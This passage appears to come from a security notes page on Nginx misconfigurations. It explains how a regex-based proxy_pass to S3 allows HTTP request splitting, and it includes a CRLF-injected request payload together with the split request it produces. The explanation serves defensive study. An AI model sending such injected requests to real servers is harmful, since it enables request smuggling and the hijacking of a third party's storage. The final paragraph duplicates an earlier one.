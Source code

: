 Well to that I say:
> **Just because an application has `merge_slashes off` it doesn't mean its vulnerable!!!**
>  -- _databus_

## Server Side Request Forgery
[[ssrf] Server Side Request Forgery](https://github.com/yandex/gixy/blob/master/docs/en/plugins/ssrf.md)

## HTTP Splitting
[[http_splitting] HTTP Splitting](https://github.com/yandex/gixy/blob/master/docs/en/plugins/httpsplitting.md)

### Exploiting HTTP Splitting with cloud storage
One configuration you could do (hint: **don’t**) might look like this:

```
location ~ /docs/(\[^/\]\*/\[^/\]\*)? {
    proxy_pass https://bucket.s3.amazonaws.com/docs-website/$1.html;
}
```
**or**
```
location ~ /images([0-9]+)/([^\s]+) {
    proxy_pass https://s3.amazonaws.com/companyname-images$1/$2;
}
```

In this case, any URL under `yourdomain.com/docs/` would be served from S3. The regular expression states that `yourdomain.com/docs/help/contact-us` would fetch the S3-object located at:

```
https://bucket.s3.amazonaws.com/docs-website/help/contact-us.html
```

Now, the problem with this regular expression is that it also allows newlines per default. In this case, the `[^/]*` part actually also includes encoded newlines. And when the regular expression group is passed into proxy_pass, the group will be url-decoded. This means that the following request:

```
GET /docs/%20HTTP/1.1%0d%0aHost:non-existing-bucket1%0d%0a%0d%0a HTTP/1.1
Host: yourdomain.com
```

Would actually make the following request from the web server to S3:

```
GET /docs-website/ HTTP/1.1
Host:non-existing-bucket1

.html HTTP/1.0
Host: bucket.s3.amazonaws.com
```

In this case, any URL under yourdomain.com/docs/ would be served from S3. The
regular expression states that yourdomain.com/docs/help/contact-us would fetch
the S3-object located at: `https://bucket.s3.amazonaws.com/docs-website/help/contact-us.html`
